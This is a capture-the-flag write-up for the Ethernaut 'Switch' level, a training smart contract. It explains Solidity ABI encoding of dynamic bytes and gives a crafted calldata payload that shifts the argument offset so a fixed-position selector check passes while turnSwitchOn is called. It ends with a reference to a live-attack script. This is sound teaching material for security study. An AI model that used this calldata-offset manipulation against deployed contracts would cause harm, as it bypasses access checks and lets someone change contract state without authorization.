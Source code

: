 # Switch

[Switch](https://ethernaut.openzeppelin.com/level/0xb6793dA57738f247cf8EA28d1b18C6E560B3903C)

_flip the switch_


1. When dealing with dynamic types calldata encodes an argument as follows: <BR />
    ```
    |--- x-bytes ---| |-------32-bytes-------| |--- y-bytes ---| |- z-bytes --|
    <other arguments> <Offset of Dynamic type> <other arguments> <Dynamic type>
    ```

1. An argument of type bytes is then encoded as a length prefixed array
    ```
    |-------------------- z-bytes ----------------------|
    <------------------ Dynamic type ------------------->

    |- 32-bytes -| |- packed bytes rounded to 32-bytes -|
    <-- length --> <---------- byte elements ----------->
    ```

1. Our goal is to call `turnSwitchOn()` by passing its selector to `flipSwitch(bytes)` bytes parameter.
    Specifically the selector must be set within the first 4-bytes of the `flipSwitch` argument.

1. The standard way to encode the bytes argument for such a function signature is:
    ```
    Selector:            00 | 30c13ade
    Dynamic Type Offset: 04 | 0000000000000000000000000000000000000000000000000000000000000020
    Number of Bytes:     24 | 0000000000000000000000000000000000000000000000000000000000000004
    Four data bytes:     44 | 20606e1500000000000000000000000000000000000000000000000000000000
    ```

1. The `Switch` verifies that the calldata at offset 68 (0x44) is the selector for the function `turnSwitchOff()` 
   and our solution must satisfy this condition.

1. The solution must simply force the bytes argument to start after the `turnSwitchOff()` selector.
    ```
    Selector:            00 | 30c13ade
    Dynamic Type Offset: 04 | 0000000000000000000000000000000000000000000000000000000000000060
    Unused Bytes:        24 | 0000000000000000000000000000000000000000000000000000000000000000
    Unused Bytes:        44 | 20606e1500000000000000000000000000000000000000000000000000000000
    Number of Bytes:     64 | 0000000000000000000000000000000000000000000000000000000000000004
    Four data bytes:     84 | 76227e1200000000000000000000000000000000000000000000000000000000
    ```


<BR />

## Live Attack

```BASH
./attackDo.sh
```

<BR />

